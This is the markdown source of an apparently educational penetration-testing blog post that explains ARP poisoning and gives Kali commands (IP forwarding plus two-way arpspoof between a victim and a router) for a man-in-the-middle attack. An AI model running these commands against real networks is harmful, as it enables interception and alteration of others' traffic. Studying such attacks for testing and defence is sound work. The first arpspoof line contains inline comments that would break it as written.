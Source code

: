 ```yaml
---
title: Poison that ARP
excerpt: how to execute arp poisoning
categories:
  - Penetration-Testing
tags:
  - pentest
  - MITM
  - ARP
---
```


# What is ARP poisoning?

{% capture fig_img %} ![ARPscreenshot]({{ "/assets/images/arpspoof.png" | absolute_url }}) {% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>visual representation of ARP poison</figcaption></figure>

ARP or Address Resolution Protocol is the protocol that will tell computers the corresponding MAC address of an IP address. In Routing and switching, when a packet is sent to a host outside the local subnet, a Layer 3 device is needed to route the package to the destination. The destination MAC address of a packet will always be next hop in this situation, and the L3 device will change the L3 header accordingly.

ARP poisoning is done by tricking the victim that the attackers PC is the router, thus forwarding all traffic to him instead of to the router. The attacker will work as a proxy, forwarding all the traffic to the router and back, so it would appear that traffic is flowing normally, except of course it isn't, all traffic is getting routed through the attacker first, so he can inspect and even change packets if he wishes.

## Execute ARP poisoning

for this we use Kali:
```
echo 1> /proc/sys/net/ipv4/ip_forward #enables IP forwarding

# this will tell the victim to forward packets to the attacker instead of the router

arpspoof -i eth0 #internet interface -t 6.6.6.6 #targetIP 6.6.6.254 #router

# this will tell the router the attacker is actually the victim computer

arpspoof -i eth0 -t 6.6.6.254 6.6.6.6
```
